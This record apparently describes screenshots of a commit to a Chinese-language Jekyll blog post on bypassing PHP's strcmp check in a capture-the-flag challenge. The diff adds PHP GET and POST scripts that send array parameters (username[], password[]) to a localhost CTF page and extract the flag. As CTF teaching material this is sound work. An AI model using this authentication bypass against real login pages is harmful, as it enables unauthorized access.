

Before and after one commit to dyeat/dyeat.github.io, a Jekyll site: the page built from _posts/2016-11-21-Strcmp繞過.md, in a window 1280 px wide and 1400 px high, scrolled down 1140 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; grey boxes are pictures that could not be loaded.

Commit message:
update post

````diff
--- a/_posts/2016-11-21-Strcmp繞過.md
+++ b/_posts/2016-11-21-Strcmp繞過.md
@@ -46,6 +46,8 @@ PHP Strcmp函數 可利用輸入陣列繞過檢查
 
 附上Exploit
 
+#### python版本
+
 ```py
 #coding=utf-8
 import requests
@@ -60,3 +62,56 @@ pat = re.compile(r'c+.*}')  # + 代表開頭 *代表結尾
 flag  = re.findall(pat, str(dump))
 print (flag[0])
 ```
+###### **※2019-08-09 Update**
+
+#### PHP GET版本
+```php
+#!/usr/bin/php -q
+<?php
+
+$url = "http://localhost/CTF/strcmp.php";
+
+$payload = '?username[]=aaa&password[]=aaa';
+
+$ch = curl_init();
+curl_setopt($ch, CURLOPT_URL, $url . $payload);
+curl_setopt($ch, CURLOPT_RETURNTRANSFER,1);
+
+$result = curl_exec($ch);
+
+curl_close ($ch);
+
+preg_match('/CTF{.*}/',$result,$matches) . PHP_EOL;
+echo $matches[0] . PHP_EOL;  //echo flag
+
+?>
+```
+
+
+#### PHP POST版本
+```php
+#!/usr/bin/php -q
+<?php
+
+$url = "http://localhost/CTF/strcmp.php";
+
+$payload = array(
+	'username[]' => 'aaa',
+	'password[]' => 'aaa'
+	);
+
+$ch = curl_init();
+curl_setopt($ch, CURLOPT_URL, $url);
+curl_setopt($ch, CURLOPT_POST,true);
+curl_setopt($ch, CURLOPT_CUSTOMREQUEST,'POST');
+curl_setopt($ch, CURLOPT_POSTFIELDS, http_build_query($payload) );
+curl_setopt($ch, CURLOPT_RETURNTRANSFER,1);
+
+$result = curl_exec($ch);
+
+curl_close ($ch);
+
+preg_match('/CTF{.*}/',$result,$matches) . PHP_EOL;
+echo $matches[0] . PHP_EOL;
+?>
+```
````
